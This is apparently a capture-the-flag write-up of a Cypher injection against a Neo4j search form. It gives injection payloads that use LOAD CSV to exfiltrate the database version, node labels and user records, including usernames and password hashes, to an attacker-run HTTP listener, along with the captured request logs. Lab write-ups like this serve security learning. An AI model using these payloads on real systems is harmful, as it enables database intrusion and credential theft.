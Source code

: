 Whenb using this search form :

![[Pasted image 20230901222234.png]]

From Hacktricks, there a query to get server version :

```shell
' OR 1=1 WITH 1 as a  CALL dbms.components() YIELD name, versions, edition UNWIND versions as version LOAD CSV FROM 'http://10.10.14.10/?version=' + version + '&name=' + name + '&edition=' + edition as l RETURN 0 as _0 //
```

we can insert this query in the web form, and have a HTTP server

python3 -m http.server 80

```text
10.10.11.210 - - [01/Sep/2023 22:45:31] code 400, message Bad request syntax ('GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1')
10.10.11.210 - - [01/Sep/2023 22:45:31] "GET /?version=5.6.0&name=Neo4j Kernel&edition=community HTTP/1.1" 400 -
```

So we can exfiltrate data from this Neo4j database

We can get labels :

```text
' OR 1=1 WITH 1 as a CALL db.labels() yield label LOAD CSV FROM 'http://10.10.14.10/?l='+label as l RETURN 0 as _0 //
```

```text
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:57] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=employee HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=user HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:02:58] "GET /?l=employee HTTP/1.1" 200 -
```

The label "user" could be interesting

```text
' OR 1=1 WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.10/?' + p +'='+toString(f[p]) as l RETURN 0 as _0 //
```

```text
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:58] "GET /?username=john HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [01/Sep/2023 23:18:59] "GET /?username=john HTTP/1.1" 200 -
```